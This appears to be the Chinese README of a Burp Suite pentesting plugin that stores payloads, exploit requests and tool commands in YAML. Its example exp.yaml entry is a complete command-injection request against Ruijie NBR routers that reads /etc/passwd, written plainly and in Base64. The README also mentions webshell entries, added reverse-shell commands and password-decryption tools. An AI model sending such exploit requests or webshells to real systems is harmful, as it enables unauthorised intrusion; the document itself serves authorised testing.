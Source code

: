 ## Doraemon-渗透辅助小工具

### 前言

1. 在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 点一点操作就简单多了。
2. 在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。
3. 每次都需要到其他目录打开一些工具，直接在BurpSuite 打开其他工具进行目录扫描等操作就简单多了



### 使用

1、加载插件初始化的配置文件会放在的`/用户根目录/.config/DAM/`目录下。

2、如果当前 BurpSuite 目录存在 **DAM 目录和文件 **就会优先访问，但是**不会创建**。（[方便迁移](https://github.com/yuyan-sec/Doraemon/issues/7)）

3、**使用 vscode 来修改 exp.yaml ， payload.yaml 和 tools.yaml** （**yaml 语法**）

```
DAM:
|_exp.yaml
|_payload.yaml
|_tools.yaml
|_temp.req (单独启动的时候用来保存 request 请求)
```



#### payload.yaml

该文件是把 **Payload 插入到 数据包 中** （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

```
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```

![2](./images/2.png)



#### exp.yaml

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（**yaml 语法**）

```
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

![1](./images/1.png)

#### tools.yaml

可以直接在GUI直接新增和删除，也可以手动添加

```
ping: ping -nc 1 {host}

ffuf: ffuf.exe -w dict.txt -u {url}/FUZZ

ffuf2: ffuf.exe -w dict.txt -request {request} -request-proto http -mode clusterbomb
```

**配置**

https://www.baidu.com/index.php

- {request} 表示使用请求包
- {url} : https://www.baidu.com/index.php
- {host} : www.baidu.com
- {domain} :  baidu.com
- {target} :  https://www.baidu.com



### 更新日志

#### 1.0.5

添加了一些应用的解密：

```
用友NC解密：
https://github.com/jas502n/ncDecode

致远-帆软解密：
https://github.com/Rvn0xsy/PassDecode-jar

蓝凌OA解密：
https://github.com/yuanhaiGreg/LandrayExploit

Drcom 解密：
https://blog.csdn.net/x_iya/article/details/69672339

正方解密：
https://github.com/szad670401/zfexp/

FinalShell解密：
https://github.com/jas502n/FinalShellDecodePass

IMC数据库解密：
https://www.t00ls.com/thread-66252-1-1.html

OpenFire 管理后台账号密码解密:
https://github.com/jas502n/OpenFire_Decrypt
```



![](images/8.png)

#### 1.0.4

添加了一些反弹shell的命令

![](/images/7.png)

#### 1.0.3.1

1. 感谢 [alex123-2star](https://github.com/alex123-2star) 师傅提交的代码：优化 Mac 快捷启动 和 请求处理（{domain}  {target} ）
2. 如果当前 BurpSuite 目录存在 **DAM 目录和文件 **就会优先访问，但是**不会创建**。其次才访问 `/用户根目录/.config/DAM/` 下的文件（会创建目录和配置文件）



#### 1.0.3

1.0.3 版本所有配置都放在了`/用户根目录/.config/DAM/`，新增了一个快捷启动工具的功能，可以通过设置工具的路径和命令进行快捷启动。Linux 系统需要安装 `gnome-terminal` ，mac 没测试。

该功能主要抄的工具：

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather

![3](./images/5.png)

添加保存完成之后在菜单右键可以看到工具

![3](./images/6.png)

#### 1.0.2

1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload

![3](./images/3.png)

也可以单独运行，其他功能还没写

![4](./images/4.png)


### 已知BUG

第三层不能同名，这样通过 JSP 获取内容就会出错，只会获取到最后一个 冰蝎3 的 JSP

```yaml
WebShell:
  哥斯拉:
    JSP:
      dGVzdA==
  冰蝎3:
    JSP:
      MTIz
```

建议修改为

```yaml
WebShell:
  哥斯拉:
    哥斯拉-JSP:
      dGVzdA==
  冰蝎3:
    冰蝎3-JSP:
      MTIz
```

这样就可以获取到相对的内容。





### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

https://github.com/d3vilbug/HackBar

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather
